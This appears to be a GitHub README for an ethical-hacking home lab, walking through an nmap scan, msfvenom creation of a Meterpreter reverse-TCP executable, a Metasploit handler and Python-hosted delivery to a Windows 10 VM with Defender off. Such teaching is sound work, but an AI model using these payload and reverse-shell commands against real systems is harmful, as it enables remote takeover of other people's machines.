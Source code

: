 # HomeLab Setup for Kali Linux and Windows 10

This repository provides a step-by-step guide on how to set up a HomeLab environment for Kali Linux and Windows 10 for educational and research purposes. In this setup, we will configure both machines to be in the same network, and we'll turn off Windows Firewall and Windows Defender to facilitate penetration testing and ethical hacking activities.

## Prerequisites

Before proceeding with the setup, ensure the following prerequisites are met:

1. Both the Kali Linux and Windows 10 machines are connected to the same network.
2. Windows Firewall and Windows Defender are turned off on the Windows 10 machine.

## HomeLab Setup Steps

Follow these steps to create your HomeLab environment:

### 1. Network Scanning

Scan the network of the Windows 10 machine using the `nmap` tool to identify open ports. Use the following command, replacing `(ip address of Windows machine)` with the actual IP address of the Windows 10 machine:

```bash
nmap -A (ip address of Windows machine) -Pn
```

### 2. Payload Selection

List the available payloads using the `msfvenom` tool to create a malware payload. Use the following command:

```bash
msfvenom -l payloads
```

Choose a suitable payload; for example, select `windows/x64/meterpreter_reverse_tcp`.

### 3. Malware Creation

Create the malware payload using the selected payload type. Replace `(ip address of attacking machine)` with the IP address of your Kali Linux machine and `(filename.exe)` with your desired filename:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=(ip address of attacking machine) LPORT=4444 -f exe -o (filename.exe)
```

### 4. Set Up the Handler

Open the Metasploit framework handler to listen on the specified port for the configured malware. Follow these steps:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST (ip address of Kali Linux)
exploit
```

The handler is now listening to accept connections from the victim machine.

### 5. Host the Malware

To make the Windows 10 machine the victim, set up an HTTP server using Python. Run the following command to host the malware on a local web server:

```bash
python3 -m http.server 9999
```

### 6. Victim Machine Execution

On the Windows 10 machine, download the malicious exploit by visiting the website created by the Python HTTP server.

### 7. Monitor and Control

After executing the malware, you can monitor the compromised Windows machine's status. In Kali Linux, you will see all the commands to be executed on the targeted Windows machine, as it is now under Kali's control.

Please note that this guide is for educational and research purposes only. Always ensure that you have the necessary permissions and legal rights before performing any penetration testing or ethical hacking activities. Be aware of the potential legal and ethical implications of such activities.
